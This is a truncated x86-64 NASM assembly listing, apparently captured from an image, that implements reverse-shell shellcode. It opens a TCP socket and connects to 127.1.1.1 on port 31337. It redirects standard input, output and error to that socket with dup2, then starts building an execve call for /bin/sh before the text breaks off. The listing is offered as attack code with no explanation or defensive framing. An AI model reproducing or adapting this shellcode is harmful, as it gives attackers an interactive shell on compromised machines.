 ```nasm
global _start
section .text

_start:
	; socket
	xor rdi, rdi
	xor rsi, rsi
	mul rsi		; clear rax and rdx

	add rdi, 0x2

	add rsi, 0x1
	
	add rdx, 0x6

	add rax, 0x29
	syscall		; exec socket syscall

	mov rdi, rax	; return value
	
	; connect
	xor rsi, rsi
	push rsi
	
	mov byte [rsp], 0x2

	mov word [rsp + 0x2], 0x697a		; port 31337

	mov dword [rsp + 0x4], 0x0101017f	; ip 127.1.1.1

	mov rsi, rsp

	push 0x10
	pop rdx
	
	push 0x2a
	pop rax

	syscall 	; exec connect syscall
	
	; dup2
	xor rsi, rsi
	push 0x3
	pop rsi

doop:
	dec rsi

	push 0x21
	pop rax
	
	syscall		; exec dup2 syscall

	jne doop

	; execve
	xor rdx, rdx
	xor rsi, rsi
	push rsi

	mov rdi, 0x68732f6e69622f2f
	shr rdi, 0x8

```